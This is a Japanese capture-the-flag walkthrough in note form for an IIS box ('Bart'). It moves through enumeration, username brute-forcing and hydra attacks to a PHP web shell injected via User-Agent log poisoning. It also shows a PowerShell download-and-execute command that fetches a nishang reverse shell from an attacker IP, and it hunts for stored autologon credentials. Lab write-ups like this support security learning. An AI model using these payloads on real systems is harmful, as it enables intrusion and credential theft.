






- nmap 
	- 80 http Microsoft IIS httpd 10.0
- gobuster
- curl
	- -vvvを付けて存在しないディレクトリを指定する
	- 画像コンテンツのjpeg画像が200 okで帰ってくる
- ブラウザで存在しないディレクトリを指定してみる
- gobusterに戻って-sオプションを追加して204,301,302,307を指定する
	- forumディレクトリが出てくるのでアクセスする
- hostsファイルにbart.htb forum.bart.htbを追記する
- gobusterでmonitorディレクトリを発見
	- hostsファイルに追記
- 「PHP Server Monitor v3.2.1」で作成されていることがわかる
	- ログイン画面が表示される
	- htmlソースコードに書かれていた名前を入れてみる
	- ユーザー名が分からないので「Forgot your password?」に行き、分かっているユーザー名を総当りで入れていく
	- 正しいユーザー名が入力できたら緑色のボックスが表示されるはず
	- 開発者のユーザー名の可能性が高い。「harvey」で緑のボックスが出る
	- passwordはブルートフォースしてもよいがここでは「potter」で認証した
- ログイン先にもリンクがあるのでクリックしてみると別のログインフォームが表示される
- ユーザー名を「harvey」passwordを「potter」で実行しても認証されない
- hydraでBFを実行してみる
- 誤検知が多いのでBurpをかませてhydraを実行する
   
   
  
   
   


- hydraで使用するwordlistを/usr/share/wordlists/metasploit/common_roots.txtに変更しアドレスを127.0.0.1に変更して実行
- 分かったクレデンシャルで認証する
- chatが表示される
- log.txtに書き込みがされる記述があるのでログポイズニングが利用できそう
- Burpで受信して「User Agent」にPHPコードを配置してみる
```PHP
User Agent: <?php system($_REQUEST['PleaseSubscribe']); ?>
```
- filenameをlog.phpに変更して再度実施。
- 「User Agent」を適当なものに置き換え、「Username」に「&PleaseSubscribe=whomai」を追記する
- nishangを使用してリバースシェルを取得する
- まず最初に「/opt/powershell/nishang/Shells/Invoke-PowerShellTcp.ps1」をコピーする
- このファイルを編集する。最終行に「Incoke-PowerShellTcp -Reverse -IPAddress -Port」を追記してIPAddressとPortを変更する
- BurpのPleaseSubscribeにpowershellコマンドを入力する
```
Powershell "IEX(New-Object Net.webClient).downloadString('http://10.10.14.30/Invoke-PowerShellTcp.ps1')"
```
- URLエンコードを実施しておく
- 実行すればリバースシェルが取れる
- 32bitのPowershellが起動してしまうので64bitに入り直す
```
c:\windows\SysNative\windowsPowerShell\v1.0\ Powershell "IEX(New-Object Net.webClient).downloadString('http://10.10.14.30/Invoke-PowerShellTcp.ps1')"
```
- 「Get-RegistryAutoLogon」を使ってレジストリに残っている自動ログオン資格情報を検索
- 